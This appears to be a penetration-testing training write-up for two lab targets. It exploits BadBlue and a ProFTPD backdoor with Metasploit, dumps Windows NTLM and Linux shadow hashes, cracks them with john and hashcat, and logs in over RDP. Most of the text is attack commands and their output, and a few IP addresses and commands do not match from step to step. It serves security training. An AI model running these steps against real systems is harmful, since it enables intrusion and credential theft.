

# 🔬Cracking Hashes

## Lab 1 - Windows <a href="#lab-1-windows" id="lab-1-windows"></a>

> 🔬 [Windows: NTLM Hash Cracking](https://attackdefense.com/challengedetails?cid=2351)
>
> * Target IP: `10.0.27.144`
> * **NTLM Hashes dumping and cracking**

#### Enumeration & Exploitation <a href="#enumeration-and-exploitation" id="enumeration-and-exploitation"></a>

```
nmap -sV -p 80 10.0.27.144
```

```bash
80/tcp open  http BadBlue httpd 2.7
```

```bash
service postgresql start && msfconsole -q
```

```bash
search badblue
use exploit/windows/http/badblue_passthru
options
setg RHOSTS 10.2.24.37
epxloit
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
getuid
    Server username: WIN-OMCNBKR66MN\Administrator
getprivs 

    Enabled Process Privileges
    ==========================
    
    Name
    ----
    SeBackupPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeCreatePagefilePrivilege
    SeCreateSymbolicLinkPrivilege
    SeDebugPrivilege
    SeImpersonatePrivilege
    SeIncreaseBasePriorityPrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeLoadDriverPrivilege
    SeManageVolumePrivilege
    SeProfileSingleProcessPrivilege
    SeRemoteShutdownPrivilege
    SeRestorePrivilege
    SeSecurityPrivilege
    SeShutdownPrivilege
    SeSystemEnvironmentPrivilege
    SeSystemProfilePrivilege
    SeSystemtimePrivilege
    SeTakeOwnershipPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

* With the `Administrator` Meterpreter session, privilege escalation is not necessary.
* Migrate to the `lsass` process

```bash
pgrep lsass
migrate 688
# Meterpreter session is x64 and more stable now
```

### Dumping Hashes <a href="#dumping-hashes" id="dumping-hashes"></a>

❗ In order to set up persistence, administrative privileges are required.

```bash
hashdump 
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

* Open a new tab and create a `.txt` file with the dumped hashes. Paste the `Administrator` and `bob` hashes

```bash
vim hashes.txt
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
    bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
```

### Cracking Hashes <a href="#cracking-hashes" id="cracking-hashes"></a>

* Metasploit [auxiliary/analyze/crack\_windows](https://www.rapid7.com/db/modules/auxiliary/analyze/crack\_windows) module can be used to brute-force the hashes.

```bash
background
use auxiliary/analyze/crack_windows
options
set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

<figure><figcaption></figcaption></figure>

#### **JohnTheRipper**

* In this case John The Ripper will be used as an example

[**`john`**](https://github.com/openwall/john) - _Open Source password security auditing and password recovery tool available for many operating systems_

```bash
john --list=formats | grep NT
	netntlm, netntlm-naive, net-sha1, nk, notes, md5ns, nsec3, NT, o10glogon
```

```bash
john --format=NT hashes.txt
# It will use the default wordlist
```

<figure><figcaption></figcaption></figure>

* Use the **`rockyou.txt`** wordlist instead

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

#### **Hashcat**

[**`hashcat`**](https://hashcat.net/hashcat/) - _Open Source advanced password recovery utility, supporting five unique modes of attack for over 300 highly-optimized hashing algorithms_

* Crack NTLM hashes with **`hashcat`** brute-force

```bash
hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 

hashcat -a 3 -m 1000 --show hashes.txt /usr/share/wordlists/rockyou.txt 
    8846f7eaee8fb117ad06bdd830b7586c:password
    5835048ce94ad0564e29a924a03510ef:password1
```

* Try RDP login (Make sure that the port is open)

```bash
xfreerdp /u:Administrator /p:password /v:10.0.27.144
```


**Administrator User Password:** `password`

**Bob User Password:** `password1`


***

## Lab 2 - Linux <a href="#lab-2-linux" id="lab-2-linux"></a>

> 🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
> * Target IP: `192.22.107.3`
> * **Password Hashes dumping and cracking**
> * Same lab as the [🔬Hashes Dumping lab](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/linux-attacks/creds-dump-unix)

#### Enumeration & Exploitation <a href="#enumeration-and-exploitation-1" id="enumeration-and-exploitation-1"></a>

```bash
ip -br -c a
	192.249.201.2/24
```

```bash
nmap -sV 192.249.201.3
```

```bash
21/tcp open  ftp     ProFTPD 1.3.3c
```

```bash
service postgresql start && msfconsole -q
```

```bash
setg RHOSTS 192.22.107.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
exploit
```

```bash
/bin/bash -i
```

### Dumping Hashes <a href="#dumping-hashes-1" id="dumping-hashes-1"></a>

```bash
cat /etc/shadow
```

> 📌 `root`:`$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`
>
> * `$6` = the hashing algorithm is **SHA-512**

<figure><figcaption></figcaption></figure>

* An MSF module can be used for hash dumping

```bash
# CTRL+Z to background the session
sessions -u 1
session 2

use post/linux/gather/hashdump
set SESSION 2
run
```

<figure><figcaption></figcaption></figure>

```bash
cat /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt
	root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
```

* Exit `MSFconsole`

### Cracking Hashes <a href="#cracking-hashes-1" id="cracking-hashes-1"></a>

* Metasploit [auxiliary/analyze/crack\_linux](https://github.com/syselement/ine/blob/main/ejpt/hostnetwork-penetration-testing/5-post-exploit/auxiliary/analyze/crack\_linux/README.md) module can be used to brute-force the hashes. Check the technique in the same [🔬lab environment](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/linux-attacks/creds-dump-unix).

**JohnTheRipper**

* In this case John The Ripper will be used as an example

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz 
```

```bash
john --format=sha512crypt /root/.msf4/loot/20240811052111_default_192.249.201.3_linux.hashes_859038.txt /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

### **Hashcat**

```bash
hashcat --help | grep 1800
	1800 | sha512crypt $6$, SHA512 (Unix) | Operating Systems
```

```bash
hashcat -a3 -m 1800 /root/.msf4/loot/20240811052111_default_192.249.201.3_linux.hashes_859038.txt /usr/share/wordlists/rockyou.txt 
```

<figure><figcaption></figcaption></figure>


**root Password:** `password`

